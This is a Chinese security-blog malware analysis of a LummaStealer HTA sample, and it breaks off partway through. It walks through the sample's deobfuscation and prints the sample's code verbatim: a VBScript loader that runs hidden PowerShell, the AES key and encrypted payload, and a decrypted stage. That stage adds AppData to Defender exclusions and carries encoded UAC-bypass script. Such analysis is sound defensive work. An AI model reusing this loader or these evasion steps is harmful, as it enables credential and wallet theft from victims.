








# 一个LummaStealer样本的反混淆分析-先知社区

> **来源**: https://xz.aliyun.com/news/17591  
> **文章ID**: 17591

---

### 样本介绍

Lumma Stealer是一款信息窃取类恶意软件，主要针对Windows系统，旨在窃取用户的敏感数据，包括浏览器Cookies、密码、加密货币钱包信息、系统信息等。该恶意软件通常通过钓鱼邮件、恶意广告或破解软件传播，并利用反分析技术来规避检测。

### 样本分析

样本是一个hta文件，使用notepad打开看到文件中包含一段代码。



重写代码输出res结果如下

```
Function Atq(ByVal knR)
    Dim veG
    Dim oEj
    oEj = 595
    Dim xpT
    xpT = PvZ(knR)
    If xpT = 7000 + 1204 Then
        For Each veG In knR
            Dim hma
            hma = hma & Chr(veG - oEj)
        Next
    End If
    Atq = hma
End Function
Function wPE()
    Dim knR
    Dim vUw
    vUw = "powershell.exe -ExecutionPolicy UnRestricted Start-Process 'cmd.exe' -WindowStyle hidden -ArgumentList {/c powershell.exe $osJBgA='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';$HwzgNInv = 'ZHN1ZlVJU2ROWGhGaFlOWFdqRGxDbU5ubk9wT0NTb3Y=';$MqUCGZc = New-Object 'System.Security.Cryptography.AesManaged';$MqUCGZc.Mode = [System.Security.Cryptography.CipherMode]::ECB;$MqUCGZc.Padding = [System.Security.Cryptography.PaddingMode]::Zeros;$MqUCGZc.BlockSize = 128;$MqUCGZc.KeySize = 256;$MqUCGZc.Key = [System.Convert]::FromBase64String($HwzgNInv);$OSffI = [System.Convert]::FromBase64String($osJBgA);$UUOflhYy = $OSffI[0..15];$MqUCGZc.IV = $UUOflhYy;$smgfVzvzt = $MqUCGZc.CreateDecryptor();$eAhuXfFsB = $smgfVzvzt.TransformFinalBlock($OSffI, 16, $OSffI.Length - 16);$MqUCGZc.Dispose();$YuVuTj = New-Object System.IO.MemoryStream( , $eAhuXfFsB );$yHtgcRv = New-Object System.IO.MemoryStream;$DVhtPZFgT = New-Object System.IO.Compression.GzipStream $YuVuTj, ([IO.Compression.CompressionMode]::Decompress);$DVhtPZFgT.CopyTo( $yHtgcRv );$DVhtPZFgT.Close();$YuVuTj.Close();[byte[]] $RqbYFs = $yHtgcRv.ToArray();$ixpJmj = [System.Text.Encoding]::UTF8.GetString($RqbYFs);$ixpJmj | Out-File output.txt}"
    Dim xLy
    Set xLy = NvV(Atq(Array(682,710,694,709,700,707,711,641,678,699,696,703,703)))
    xLy.Run(vUw),0,true
    self.close()
End Function
Function PvZ(ByVal xpT)
    PvZ = VarType(xpT)  //返回对应数据类型的值，但不单独返回array的值，详见微软文档，链接在文末
End Function
Function NvV(ByVal objectType)
    Set NvV = CreateObject(objectType)
End Function
wPE()
```

也可直接运行vb代码输出结果



这段代码内容为Atq函数对传入的数据转化为ascii码，上述数组的传入结果为Wscript.Shell。NvV函数则创建Wscript.Shell对象。对象赋值给xLy，通过xLy运行存储在代码中的Powershell命令。

分析powershell命令，主要内容如下

```
$osJBgA = 'AAAAAAAA...';  # 长字符串，Base64编码
$HwzgNInv = 'ZHN1ZlVJU2ROWGhGaFlOWFdqRGxDbU5ubk9wT0NTb3Y='; # 另一个Base64字符串

$MqUCGZc = New-Object 'System.Security.Cryptography.AesManaged';
$MqUCGZc.Mode = [System.Security.Cryptography.CipherMode]::ECB;
$MqUCGZc.Padding = [System.Security.Cryptography.PaddingMode]::Zeros;
$MqUCGZc.BlockSize = 128;
$MqUCGZc.KeySize = 256;
$MqUCGZc.Key = [System.Convert]::FromBase64String($HwzgNInv);//dsufUISdNXhFhYNXWjDlCmNnnOpOCSov

$OSffI = [System.Convert]::FromBase64String($osJBgA);
$UUOflhYy = $OSffI[0..15];
$MqUCGZc.IV = $UUOflhYy;

$smgfVzvzt = $MqUCGZc.CreateDecryptor();
$eAhuXfFsB = $smgfVzvzt.TransformFinalBlock($OSffI, 16, $OSffI.Length - 16);//解密OSffI第16位后的结果 
$MqUCGZc.Dispose();
$YuVuTj = New-Object System.IO.MemoryStream( , $eAhuXfFsB );
$yHtgcRv = New-Object System.IO.MemoryStream;
$DVhtPZFgT = New-Object System.IO.Compression.GzipStream $YuVuTj, ([IO.Compression.CompressionMode]::Decompress);
$DVhtPZFgT.CopyTo( $yHtgcRv );
$DVhtPZFgT.Close();
$YuVuTj.Close();
[byte[]] $RqbYFs = $yHtgcRv.ToArray();
$ixpJmj = [System.Text.Encoding]::UTF8.GetString($RqbYFs);
$ixpJmj | Out-File output.txt
powershell -
```

可以看到这是一段AES解密代码，密钥经过base64编码，加密模式为ECB/no padding，因ECB模式不需要IV，且解密数据是从第16位开始。使用工具解密的结果如下，



此时解压会报格式错位，将输出结果转为十六进制，进行解压依然会报错，删除结尾的多组00再转回原本数据进行解压成功，如图





​

最终解压的结果为

```
function ZpfWEYj(){$uSLofA = [System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('DQAKAEEAZABkAC0AVAB5AHAAZQAgAC0ATgBhAG0AZQAgAEMAbwBuAHMAbwBsAGUAVQB0AGkAbABzACAALQBOAGEAbQBlAHMAcABhAGMAZQAgAFcAUABJAEEAIAAtAE0AZQBtAGIAZQByAEQAZQBmAGkAbgBpAHQAaQBvAG4AIABAACcADQAKAFsARABsAGwASQBtAHAAbwByAHQAKAAiAHUAcwBlAHIAMwAyAC4AZABsAGwAIgApAF0ADQAKAHAAdQBiAGwAaQBjACAAcwB0AGEAdABpAGMAIABlAHgAdABlAHIAbgAgAGkAbgB0ACAAUABvAHMAdABNAGUAcwBzAGEAZwBlACgAaQBuAHQAIABoAFcAbgBkACwAIAB1AGkAbgB0ACAATQBzAGcALAAgAGkAbgB0ACAAdwBQAGEAcgBhAG0ALAAgAGkAbgB0ACAAbABQAGEAcgBhAG0AKQA7AA0ACgBwAHUAYgBsAGkAYwAgAGMAbwBuAHMAdAAgAGkAbgB0ACAAVwBNAF8AQwBIAEEAUgAgAD0AIAAwAHgAMAAxADAAMAA7AA0ACgAnAEAADQAKAEYAdQBuAGMAdABpAG8AbgAgAHMAYwByAGkAcAB0ADoAUwBlAHQALQBJAE4ARgBGAGkAbABlACAAewBbAEMAbQBkAGwAZQB0AEIAaQBuAGQAaQBuAGcAKAApAF0AUABhAHIAYQBtACAAKAAkAEkAbgBmAEYAaQBsAGUATABvAGMAYQB0AGkAbwBuACAAPQAgACIAJABlAG4AdgA6AHQAZQBtAHAAXABDAE0AUwBUAFAALgBpAG4AZgAiACwAWwBTAHQAcgBpAG4AZwBdACQAQwBvAG0AbQBhAG4AZABUAG8ARQB4AGUAYwB1AHQAZQAgAD0AIAAnAA==')) + 'powershell.exe -NoLogo -WindowStyle hidden -NonInteractive -NoProfile -ExecutionPolicy UnRestricted Add-MpPreference -ExclusionPath $env:AppData;' + [System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('JwApACQASQBuAGYAQwBvAG4AdABlAG4AdAA9AEAAIgANAAoAWwB2AGUAcgBzAGkAbwBuAF0ADQAKAFMAaQBnAG4AYQB0AHUAcgBlACAAPQBgACQAYwBoAGkAYwBhAGcAbwBgACQADQAKAEEAZAB2AGEAbgBjAGUAZABJAE4ARgAgAD0AIAAyAC4ANQANAAoAWwBEAGUAZgBhAHUAbAB0AEkAbgBzAHQAYQBsAGwAXQANAAoAQwB1AHMAdABvAG0ARABlAHMAdABpAG4AYQB0AGkAbwBuACAAPQAgAEMAdQBzAHQASQBuAHMAdABEAGUAcwB0AFMAZQBjAHQAaQBvAG4AQQBsAGwAVQBzAGUAcgBzAA0ACgBSAHUAbgBQAHIAZQBTAGUAdAB1AHAAQwBvAG0AbQBhAG4AZABzACAAPQAgAFIAdQBuAFAAcgBlAFMAZQB0AHUAcABDAG8AbQBtAGEAbgBkAHMAUwBlAGMAdABpAG8AbgANAAoAWwBSAHUAbgBQAHIAZQBTAGUAdAB1AHAAQwBvAG0AbQBhAG4AZABzAFMAZQBjAHQAaQBvAG4AXQANAAoAOwANAAoAIAAgACAAIAAgACAAIAAgACAAIAAgACAAcABvAHcAZQByAHMAaABlAGwAbAAgAC0ATgBvAEwAbwBnAG8AIAAtAFcAaQBuAGQAbwB3AFMAdAB5AGwAZQAgAGgAaQBkAGQAZQBuACAALQBOAG8AbgBJAG4AdABlAHIAYQBjAHQAaQB2AGUAIAAtAE4AbwBQAHIAbwBmAGkAbABlACAALQBFAHgAZQBjAHUAdABpAG8AbgBQAG8AbABpAGMAeQAgAFUAbgBSAGUAcwB0AHIAaQBjAHQAZQBkACAAUwBlAHQALQBJAHQAZQBtAFAAcgBvAHAAZQByAHQAeQAgAC0AUABhAHQAaAAgAFIARQBHAEkAUwBUAFIAWQA6ADoASABLAEUAWQBfAEwATwBDAEEATABfAE0AQQBDAEgASQBOAEUAXABTAG8AZgB0AHcAYQByAGUAXABNAGkAYwByAG8AcwBvAGYAdABcAFcAaQBuAGQAbwB3AHMAXABDAHUAcgByAGUAbgB0AFYAZQByAHMAaQBvAG4AXABQAG8AbABpAGMAaQBlAHMAXABTAHkAcwB0AGUAbQAgAC0ATgBhAG0AZQAgAEMAbwBuAHMAZQBuAHQAUAByAG8AbQBwAHQAQgBlAGgAYQB2AGkAbwByAEEAZABtAGkAbgAgAC0AVgBhAGwAdQBlACAAMAANAAoAJABDAG8AbQBtAGEAbgBkAFQAbwBFAHgAZQBjAHUAdABlAA0ACgB0AGEAcwBrAGsAaQBsAGwAIAAvAEkATQAgAGMAbQBzAHQAcAAuAGUAeABlACAALwBGAA0ACgBbAEMAdQBzAHQASQBuAHMAdABEAGUAcwB0AFMAZQBjAHQAaQBvAG4AQQBsAGwAVQBzAGUAcgBzAF0ADQAKADQAOQAwADAAMAAsADQAOQAwADAAMQA9AEEAbABsAFUAUwBlAHIAXwBMAEQASQBEAFMAZQBjAHQAaQBvAG4ALAAgADcADQAKAFsAQQBsAGwAVQBTAGUAcgBfAEwARABJAEQAUwBlAGMAdABpAG8AbgBdAA0ACgAiAEgASwBMAE0AIgAsACAAIgBTAE8ARgBUAFcAQQBSAEUAXABNAGkAYwByAG8AcwBvAGYAdABcAFcAaQBuAGQAbwB3AHMAXABDAHUAcgByAGUAbgB0AFYAZQByAHMAaQBvAG4AXABBAHAAcAAgAFAAYQB0AGgAcwBcAEMATQBNAEcAUgAzADIALgBFAFgARQAiACwAIAAiAFAAcgBvAGYAaQBsAGUASQBuAHMAdABhAGwAbABQAGEAdABoACIALAAgACIAJQBVAG4AZQB4AHAAZQBjAHQAZQBkAEUAcgByAG8AcgAlACIALAAgACIAIgANAAoAWwBTAHQAcgBpAG4AZwBzAF0ADQAKAFMAZQByAHYAaQBjAGUATgBhAG0AZQA9ACIATgBvAHQAZQBwAGEAZAAiAA0ACgBTAGgAbwByAHQAUwB2AGMATgBhAG0AZQA9ACIATgBvAHQAZQBwAGEAZAAiAA0ACgAiAEAAOwAkAEkAbgBmAEMAbwBuAHQAZQBuAHQAIAB8ACAATwB1AHQALQBGAGkAbABlACAAJABJAG4AZgBGAGkAbABlAEwAbwBjAGEAdABpAG8AbgAgAC0ARQBuAGMAbwBkAGkAbgBnACAAQQBTAEMASQBJAH0ARgB1AG4AYwB0AGkAbwBuACAARwBlAHQALQBIAHcAbgBkAHsAWwBDAG0AZABsAGUAdABCAGkAbgBkAGkAbgBnACgAKQBdAFAAYQByAGEAbQAoAFsAUABhAHIAYQBtAGUAdABlAHIAKABNAGEAbgBkAGEAdABvAHIAeQA9ACQAVAByAHUAZQAsAFYAYQBsAHUAZQBGAHIAbwBtAFAAaQBwAGUAbABpAG4AZQBCAHkAUAByAG8AcABlAHIAdAB5AE4AYQBtAGUAPQAkAFQAcgB1AGUAKQBdAFsAcwB0AHIAaQBuAGcAXQAkAFAAcgBvAGMAZQBzAHMATgBhAG0AZQApAFAAcgBvAGMAZQBzAHMAewAkAEUAcgByAG8AcgBBAGMAdABpAG8AbgBQAHIAZQBmAGUAcgBlAG4AYwBlAD0AJwBTAHQAbwBwACcAOwBUAHIAeQB7ACQAaAB3AG4AZAAgAD0AIABHAGUAdAAtAFAAcgBvAGMAZQBzAHMAIAAtAE4AYQBtAGUAIAAkAFAAcgBvAGMAZQBzAHMATgBhAG0AZQAgAHwAIABTAGUAbABlAGMAdAAtAE8AYgBqAGUAYwB0ACAALQBFAHgAcABhAG4AZABQAHIAbwBwAGUAcgB0AHkAIABNAGEAaQBuAFcAaQBuAGQAbwB3AEgAYQBuAGQAbABlADsAfQBDAGEAdABjAGgAewAkAGgAdwBuAGQAPQAkAG4AdQBsAGwAOwB9ACQAaABhAHMAaAA9AEAAewBQAHIAbwBjAGUAcwBzAE4AYQBtAGUAPQAkAFAAcgBvAGMAZQBzAHMATgBhAG0AZQA7AEgAdwBuAGQAPQAkAGgAdwBuAGQAOwB9ADsATgBlAHcALQBPAGIAagBlAGMAdAAgAC0AVAB5AHAAZQBOAGEAbQBlACAAUABzAE8AYgBqAGUAYwB0ACAALQBQAHIAbwBwAGUAcgB0AHkAIAAkAGgAYQBzAGgAfQB9AGYAdQBuAGMAdABpAG8AbgAgAFMAZQB0AC0AVwBpAG4AZABvAHcAQQBjAHQAaQB2AGUAewBbAEMAbQBkAGwAZQB0AEIAaQBuAGQAaQBuAGcAKAApAF0AUABhAHIAYQBtACgAWwBQAGEAcgBhAG0AZQB0AGUAcgAoAE0AYQBuAGQAYQB0AG8AcgB5AD0AJABUAHIAdQBlACwAVgBhAGwAdQBlAEYAcgBvAG0AUABpAHAAZQBsAGkAbgBlAEIAeQBQAHIAbwBwAGUAcgB0AHkATgBhAG0AZQA9ACQAVAByAHUAZQApAF0AWwBzAHQAcgBpAG4AZwBdACQATgBhAG0AZQApAFAAcgBvAGMAZQBzAHMAewAkAGgAdwBuAGQAPQBHAGUAdAAtAEgAdwBuAGQAIAAtAFAAcgBvAGMAZQBzAHMATgBhAG0AZQAgACQATgBhAG0AZQAgAHwAIABTAGUAbABlAGMAdAAtAE8AYgBqAGUAYwB0ACAALQBFAHgAcABhAG4AZABQAHIAbwBwAGUAcgB0AHkAIABIAHcAbgBkADsAWwBpAG4AdABdACQAaABhAG4AZABsAGUAPQAkAGgAdwBuAGQAOwBpAGYAKAAkAGgAYQBuAGQAbABlACAALQBnAHQAIAAwACkAewBbAHYAbwBpAGQAXQBbAFcAUABJAEEALgBDAG8AbgBzAG8AbABlAFUAdABpAGwAcwBdADoAOgBQAG8AcwB0AE0AZQBzAHMAYQBnAGUAKAAkAGgAYQBuAGQAbABlACwAWwBXAFAASQBBAC4AQwBvAG4AcwBvAGwAZQBVAHQAaQBsAHMAXQA6ADoAVwBNAF8AQwBIAEEAUgAsADEAMwAsADAAKQB9ACQAaABhAHMAaAA9AEAAewBQAHIAbwBjAGUAcwBzAD0AJABOAGEAbQBlADsASAB3AG4AZAA9ACQAaAB3AG4AZAB9ADsATgBlAHcALQBPAGIAagBlAGMAdAAgAC0AVAB5AHAAZQBOAGEAbQBlACAAUABzAE8AYgBqAGUAYwB0ACAALQBQAHIAbwBwAGUAcgB0AHkAIAAkAGgAYQBzAGgAfQB9ADsALgAgAFMAZQB0AC0ASQBOAEYARgBpAGwAZQA7AGEAZABkAC0AdAB5AHAAZQAgAC0AQQBzAHMAZQBtAGIAbAB5AE4AYQBtAGUAIABTAHkAcwB0AGUAbQAuAFcAaQBuAGQAbwB3AHMALgBGAG8AcgBtAHMAOwBJAGYAKABUAGUAcwB0AC0AUABhAHQAaAAgACQASQBuAGYARgBpAGwAZQBMAG8AYwBhAHQAaQBvAG4AKQB7AFMAdABhAHIAdAAtAFAAcgBvAGMAZQBzAHMAIABjAG0AcwB0AHAAIAAtAEEAcgBnAHUAbQBlAG4AdABMAGkAcwB0ACAAIgAvAGEAdQAgACIAIgAkAEkAbgBmAEYAaQBsAGUATABvAGMAYQB0AGkAbwBuACIAIgAiACAALQBXAGkAbgBkAG8AdwBTAHQAeQBsAGUAIABNAGkAbgBpAG0AaQB6AGUAZAA7AGQAbwB7AH0AdQBuAHQAaQBsACgAKABTAGUAdAAtAFcAaQBuAGQAbwB3AEEAYwB0AGkAdgBlACAAYwBtAHMAdABwACkALgBIAHcAbgBkACAALQBuAGUAIAAwACkAfQANAAoA'));$LLTjIa = 